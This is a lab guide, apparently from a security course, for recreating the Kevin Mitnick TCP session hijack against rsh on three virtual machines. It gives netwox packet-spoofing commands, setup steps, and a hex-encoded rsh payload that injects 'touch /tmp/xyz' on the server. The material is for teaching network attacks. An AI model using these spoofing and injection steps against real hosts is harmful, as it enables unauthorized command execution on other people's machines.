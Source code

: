 ## The Kevin Mitnick Attack 

### Requirements

In this lab, we will demonstrate the Kevin Mitnick attack - a special case of the TCP session hijack attack. Instead of hijacking an existing TCP connection between victims A and B, the Mitnick attack creates a TCP connection between A and B first on their behalf, and then naturally hijacks the connection. Specifically, Kevin Mitnick created and hijacked rsh connections. In this lab, the attacker's goal is to create a file /tmp/xyz on the victim server machine.

### Setup

3 Linux VMs. VM1 as the victim client; VM2 as the victim server; VM3 as the attacker. The 3 VMs reside in the same network - in the original Kevin Mitnick attack, the attacker's machine was not in the same network. Back then TCP sequence numbers were easily predictable, today it is not. To simulate the attack and simplify our task, we assume we still know the sequence numbers - we will, in the lab, obtain the sequence numbers from wireshark. We will then use "netwox 40" to perform packet spoofing. In the following document, we assume the victim client's IP is 10.0.2.15, and the victim server's IP is 10.0.2.10.

Background knowledge: In rsh, two TCP connections are needed. One for normal communication, the other for sending error messages. In the first connection, client port must be 1023, server port must be 514. In the second connection, server port must be 1023, client port can be anything - in this lab, we will choose 9090.

### Preparation steps: 

step 1. installing rsh on client, server, and the attacker's machine. Run the following two commands on all 3 VMs:

```console
# sudo apt-get install rsh-redone-client
# sudo apt-get install rsh-redone-server
```

step 2. configure rsh on the victim server machine.

```console
$ touch .rhosts
$ echo [victim client’s IP address] > .rhosts (replace "victim client's IP address" with the actual IP address)
$ chmod 644 .rhosts
```

If the above configuration is correct, you should be able to run the follow command on the victim client machine, and it will show you current date information.

```console
# rsh [victim server’s IP] date
```

step 3. simulating the syn flooding attack.

3.1: on the victim server, run:

```console
# sudo arp -s [victim client’s IP] [victim client’s MAC]
```

This step is needed so that the server remembers the MAC address of the client, which is needed for the server to send packets to the client.

3.2: shutdown the victim client VM - we do so to simulate the situation when the client is under serious syn flooding attack and can't respond.

step 4. in the attacking steps (next section), right after step 6.1, we need to run step 6.2 as soon as possible, otherwise the server will RESET the 1st TCP connection; similarly, right after step 6.3, we need to run step 7.1 as soon as possible, otherwise the server will RESET the 2nd TCP connection. Therefore, writing a sniffing-and-spoofing script would be the better way to perform this attack.

Alternatively, we can run these two commands on the server so that it does not RESET that fast.

```console
# sudo sysctl -w net.ipv4.tcp_syn_retries=50
# sudo sysctl -w net.ipv4.tcp_synack_retries=50
```

step 5. turn on wireshark on the attacker's VM and start capturing. also, sanity check - make sure there is no such a file called /tmp/xyz on the server side - as our ultimate goal in this lab is to create such a file.

### Attacking steps:

step 6. create the first TCP connection. 

step 6.1: On the attacker's VM, send a spoofed SYN packet to the victim server.

```console
# sudo netwox 40 --tcp-syn --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514
```

step 6.2: right after the above command, netwox would show us the sequence number of this SYN packet, let's say it's x. Then in wireshark, identify the SYN-ACK packet coming from the victim server to the victim client and find out its sequence number, let's say it's y. Now we send the ACK packet to complete the TCP 3-way handshake.

```console
# sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1
```

step 6.3: send one ACK packet to the server. This packet carries the command we want to run:

```console
# sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1 --tcp-data "393039300073656564007365656400746f756368202f746d702f78797a00" 
```

note: step 5.2 and step 5.3 are the same command, except that --tcp-data part.

step 7. create the second TCP connection. After the above ACK packet, the server would automatically sends a SYN packet to the client so as to establish the 2nd TCP connection. We just need to respond a fake SYN-ACK packet. Let's say the sequence number of this SYN packet is z, then in our SYN-ACK packet, the ack num needs to be z+1, the sequence number can be anything.

step 7.1: 

```console
# sudo netwox 40 --tcp-syn --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 9090 --tcp-dst 1023 --tcp-acknum z+1
```

Verification steps:

step 8. on the victim's server machine, see if /tmp/xyz is created.

==============

Note: In netwox 40, --tcp-data specifies the data you want to transfer, and in our case, we want to transfer an rsh command "touch /tmp/xyz". In rsh, its data's structure is:

[port number]\x00[uid_client]\x00[uid_server]\x00[your command]\x00

thus, in order to inject a command "touch /tmp/xyz", the data we should inject is "9090\x00seed\x00seed\x00touch /tmp/xyz\x00", and then we need to convert it into hex numbers:

```console
$ python
>>> "9090\x00seed\x00seed\x00touch /tmp/xyz\x00".encode("hex")
'393039300073656564007365656400746f756368202f746d702f78797a00'
```

